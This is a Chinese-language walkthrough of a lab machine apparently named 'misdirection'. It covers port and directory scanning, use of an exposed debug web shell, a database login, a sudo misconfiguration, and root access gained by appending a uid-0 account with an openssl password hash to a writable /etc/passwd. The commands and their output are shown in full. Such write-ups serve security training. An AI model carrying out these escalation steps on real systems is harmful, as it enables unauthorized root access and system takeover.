


## 端口扫描
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p- 10.10.10.22
[sudo] kali 的密码：
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-07 01:16 EST
Nmap scan report for 10.10.10.22
Host is up (0.0015s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
8080/tcp open  http-proxy
MAC Address: 00:0C:29:4B:2D:87 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 12.37 seconds
                                                                                                                                                                          
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,80,3306,8080 10.10.10.22
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-07 01:17 EST
Nmap scan report for 10.10.10.22
Host is up (0.00052s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:bb:44:ee:f3:33:af:9f:a5:ce:b5:77:61:45:e4:36 (RSA)
|   256 67:7b:cb:4e:95:1b:78:08:8d:2a:b1:47:04:8d:62:87 (ECDSA)
|_  256 59:04:1d:25:11:6d:89:a3:6c:6d:e4:e3:d2:3c:da:7d (ED25519)
80/tcp   open  http    Rocket httpd 1.2.6 (Python 2.7.15rc1)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: Rocket 1.2.6 Python/2.7.15rc1
3306/tcp open  mysql   MySQL (unauthorized)
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:4B:2D:87 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.40 seconds
```

## 目录爆破

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.10.22:8080/
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.22:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 318] [--> http://10.10.10.22:8080/images/]
/help                 (Status: 301) [Size: 316] [--> http://10.10.10.22:8080/help/]
/scripts              (Status: 301) [Size: 319] [--> http://10.10.10.22:8080/scripts/]
/css                  (Status: 301) [Size: 315] [--> http://10.10.10.22:8080/css/]
/wordpress            (Status: 301) [Size: 321] [--> http://10.10.10.22:8080/wordpress/]
/development          (Status: 301) [Size: 323] [--> http://10.10.10.22:8080/development/]
/manual               (Status: 301) [Size: 318] [--> http://10.10.10.22:8080/manual/]
/js                   (Status: 301) [Size: 314] [--> http://10.10.10.22:8080/js/]
/shell                (Status: 301) [Size: 317] [--> http://10.10.10.22:8080/shell/]
/debug                (Status: 301) [Size: 317] [--> http://10.10.10.22:8080/debug/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
==========================================================
```

这里就比较离谱了，先是去看了一眼wordpress，里面的内容指向192.168.1.61这个ip而我是10的ip
改了host文件也不行，应该不能这么访问
于是去看了debug这个目录
很离谱的是
这居然是一个shell

那么直接弹回到我的kali中，用了一个python的反弹shell

## 反弹shell，内网信息收集

得到数据库用户密码

```bash
www-data@misdirection:/var/www/html/wordpress$ mysql -u blog -p
mysql -u blog -p
Enter password: abcdefghijklmnopqrstuv

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4
Server version: 5.7.42-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```


## 登录brexit用户

```bash
www-data@misdirection:/var/www/html/debug$ sudo -l
sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (brexit) NOPASSWD: /bin/bash
```
此时输入下面这个命令
sudo -u brexit /bin/bash
用sudo -u 指定用户起一个/bin/bash终端

然后find查找一下可改写文件

```bash
brexit@misdirection:~$ find / -writable -type f -not -path '/sys/*' -not -path '/proc/*' -not -path '/home/brexit/web2py/*' 2>/dev/null
/proc/*' -not -path '/home/brexit/web2py/*' 2>/dev/null '/
/home/brexit/.viminfo
/home/brexit/.selected_editor
/home/brexit/.profile
/home/brexit/.bash_logout
/home/brexit/.bash_history
/home/brexit/start-vote.sh
/home/brexit/.bashrc
/home/brexit/.cache/motd.legal-displayed
/home/brexit/.cache/pip/selfcheck.json
/home/brexit/.cache/pip/http/3/a/f/3/a/3af3addf06e983a6c02f46e7bea70c221d3ff95bf1418fa6da354e14
/home/brexit/.cache/pip/http/d/9/f/5/0/d9f5007c5cc7fe7a953d81df1938d0a96573b4be7f6b4aea55ab2559
/home/brexit/.cache/pip/http/d/6/3/b/3/d63b3263a620e99b23b4f69598defad34ecb501ae5ca54e4dac695dd
/home/brexit/.cache/pip/http/0/8/4/f/5/084f5a8368fb89a7efa9c04f435e93864cabf099a23e186572afd976
/home/brexit/.cache/pip/http/0/4/1/8/c/0418c83b80f7f7bfaec2738bfbbee53d2c1562196c0781702f6eddc8
/home/brexit/.cache/pip/http/0/c/3/c/2/0c3c2ab80ac45d92b76521577b3c4b537bd92ce9e61cf051701e1b5e
/home/brexit/.cache/pip/http/9/f/2/9/2/9f292e59213099651b5fcfd03d5cd2be236234e87bcc0df5dbd85d73
/home/brexit/.cache/pip/http/4/d/2/7/2/4d272e6453941ce8b0a37a02cdb1685fc612c33441fa74691fb40656
/home/brexit/.cache/pip/http/5/2/2/2/0/522208f7faac55ab0e11ff112febf93d0d03cfe79067a75199dfd54d
/home/brexit/.cache/pip/http/5/0/f/d/c/50fdc589a6c4862d95953d91e6727214af0438991e623198dd5f178c
/home/brexit/.cache/pip/http/7/1/8/d/c/718dc0b3a9262afd90c31576e94cc7660a7a2809c30afe2937429e35
/home/brexit/.cache/pip/http/a/1/9/5/3/a19537d3cf37c122db841d6fe4cd322bc10d1a558bb00d146b85cb9a
/home/brexit/.cache/pip/http/a/3/7/b/8/a37b86be8276b0c9eabc32797fb2b8516f6f704f46b0354b02b72053
/home/brexit/.cache/pip/http/a/6/9/b/d/a69bdb984343de3b3653d7a852dbd14dd4ccdd03ced4b06d1352ba0b
/home/brexit/.cache/pip/http/a/6/5/4/2/a6542724bf8d60e8f3764dc45cacba88484798f4b12a65f6b4aa7227
/etc/passwd
```

## 提权，/etc/passwd可写

首先使用openssl创建一个登录密码
然后在/etc/passwd下添加一行
其中权限全部设置为root
添加无误后
su 添加的用户
输入密码
成功切换后就可以发现是root用户
```bash
brexit@misdirection:~$ openssl passwd fforu
openssl passwd fforu
pWWHVjPtxmvSI

brexit@misdirection:~$  echo "fforu:pWWHVjPtxmvSI:0:0:root:/root:/bin/bash">> /etc/passwd
tc/passwdoru:pWWHVjPtxmvSI:0:0:root:/root:/bin/bash">> /et
brexit@misdirection:~$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
brexit:x:1000:1000:brexit:/home/brexit:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
fforu:pWWHVjPtxmvSI:0:0:root:/root:/bin/bash
brexit@misdirection:~$ su fforu
su fforu
Password: fforu

root@misdirection:/home/brexit# 
```


或者将/etc/passwd中root的密码项x改为密码
例如
root:x:0:0:root:/root:/bin/bash
root:pWWHVjPtxmvSI:0:0:root:/root:/bin/bash
然后su root也可以实现提权